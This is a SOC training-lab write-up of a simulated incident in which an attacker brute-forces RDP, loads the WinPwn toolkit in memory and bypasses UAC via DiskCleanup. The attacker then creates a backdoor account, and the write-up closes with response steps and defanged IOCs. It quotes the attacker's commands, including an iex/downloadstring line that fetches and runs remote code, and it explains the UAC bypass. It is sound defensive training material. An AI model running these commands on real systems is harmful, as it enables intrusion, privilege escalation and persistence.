






# SOC299 – Potential UAC Bypass Attempt Detected

**Platform:** LetsDefend SOC Simulator (Incident Responder playbook) | **Event ID:** 275 | **Severity:** High | **Difficulty:** Medium
**Analyst:** Sidharth V Nambiar | **Verdict:** 🚨 True Positive (RDP brute force → UAC bypass → backdoor account, **successful**)

---

## Summary
An external IP brute-forced RDP on a Windows 10 workstation, logged in with a guessed password, loaded an offensive PowerShell toolkit (WinPwn) in memory from GitHub, bypassed UAC with the DiskCleanup technique to get an elevated shell, and created a backdoor account added to Remote Desktop Users.

## Alert details

| Field | Value |
|---|---|
| Event time | 2024-07-08 08:16:03 (+03:00) |
| Host | Terra / 172.16.17.70 (Windows 10) |
| Command line | `UACBypass -noninteractive -command "C:\windows\system32\cmd.exe" -technique DiskCleanup` |
| L1 note | Brute force from 185.107.80.83 minutes before the alert, outcome unknown |
| MITRE (alert) | T1078, T1133, T1059.003, T1136, T1136.001, T1548.002, T1110, T1069 |

## Investigation

### 1. Log Management (source 185.107.80.83): 16 events
- 15:14:07 → 15:15:05: **7 × Event 4625** (failed logon), user `letsdefend`, destination port **3389 (RDP)**
- 15:15:15: **Event 4624** (successful logon), user `letsdefend`, **Logon Type 10 (RemoteInteractive = RDP)**

Lots of fast failures on one account and then a success means the brute force worked.

### 2. Endpoint Security: Terra Terminal History

| Time | Command | Meaning |
|---|---|---|
| 08:15:59 | `whoami` | Who am I? |
| 08:16:03 | `$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'` | Sets the WinPwn repo |
| 08:16:04 | `iex(new-object net.webclient).downloadstring('.../WinPwn.ps1')` | Fileless download + execution of WinPwn |
| 08:16:05 | `UACBypass ... -technique DiskCleanup` | **UAC bypass**: elevated cmd.exe |
| 08:16:24–31 | `whoami`, `whoami /groups` | Confirms high integrity (admin) |
| 08:16:41 | `ping google.com` | Tests internet access |
| 08:16:50 | `net user` | Lists accounts |
| 08:17:08 | `net user test * /add` | **Creates backdoor account** |
| 08:17:30 | `net user test /fullname:"test user" /comment:"test"` | Makes it look legitimate |
| 08:17:45 | `net localgroup "Remote Desktop Users" test /add` | **Gives the backdoor RDP access** |

### 3. Network Action
At **08:16:03**, the same second as the alert, Terra connected to **185.199.111.133** (GitHub raw content). That's the WinPwn download.

### 4. How the DiskCleanup bypass works
Windows has a scheduled task, **SilentCleanup**, that runs with highest privileges and expands the `%windir%` environment variable. A normal admin-group user can change that variable so the task launches the attacker's program elevated, without a UAC prompt.

### 5. Scope
All attacker traffic went to Terra only, so there's one affected device.

## Attack chain (MITRE ATT&CK)

| Stage | Technique | ID |
|---|---|---|
| Credential Access | Brute Force | T1110 |
| Initial Access | External Remote Services (RDP) / Valid Accounts | T1133 / T1078 |
| Execution | PowerShell / Windows Command Shell | T1059.001 / T1059.003 |
| Discovery | Permission Groups Discovery (`whoami /groups`, `net user`) | T1069 / T1087 |
| Privilege Escalation / Defense Evasion | Bypass User Account Control | T1548.002 |
| Persistence | Create Local Account | T1136.001 |

## Response
- ✅ Isolate Terra
- ✅ Delete the `test` account and reset the `letsdefend` password
- ✅ Block 185.107.80.83
- ✅ Hunt for the IOCs on other hosts (none found)

## Recommendations
- Don't expose RDP to the internet; put it behind a VPN with MFA
- Account lockout policy after a few failed logons
- Alert on 4625 bursts followed by 4624 from the same IP
- Set UAC to "Always notify" and don't give daily users local admin
- PowerShell script block logging + AMSI to catch `iex(...downloadstring)`
- Alert on `net user /add` and changes to Remote Desktop Users / Administrators groups

## IOCs

| Type | Value |
|---|---|
| Attacker IP | `185.107.80[.]83` |
| Payload host | `raw.githubusercontent[.]com` (185.199.111[.]133) |
| Tool | WinPwn.ps1 (S3cur3Th1sSh1t/WinPwn) |
| Backdoor account | `test` |
| Compromised account | `letsdefend` |
| Host | Terra / 172.16.17.70 |

## Lessons learned
1. **Read the L1 note.** It pointed straight at the brute force that started everything.
2. **4625 × many → 4624 = brute force success.** Logon Type 10 confirms RDP.
3. **Terminal History tells the story.** Every phase (recon, tool load, escalation, persistence) was visible.
4. **Fileless doesn't mean invisible.** `iex(downloadstring)` leaves no file, but the command line and network connection still show it.
5. **Check every page.** The key commands were on page 2 of Terminal History.

## Tools used
LetsDefend SIEM (Log Management, Case Management) · Endpoint Security (EDR) · AbuseIPDB / VirusTotal · MITRE ATT&CK

## 📸 Evidence

**Alert details**

**Bruteforce 4625 4624**

**Logon type 10 rdp**

**Terminal winpwn download**

**Terminal uacbypass backdoor**

**Network connections**

---
*Lab: LetsDefend (Hack The Box). All indicators are from a training scenario and are defanged.*
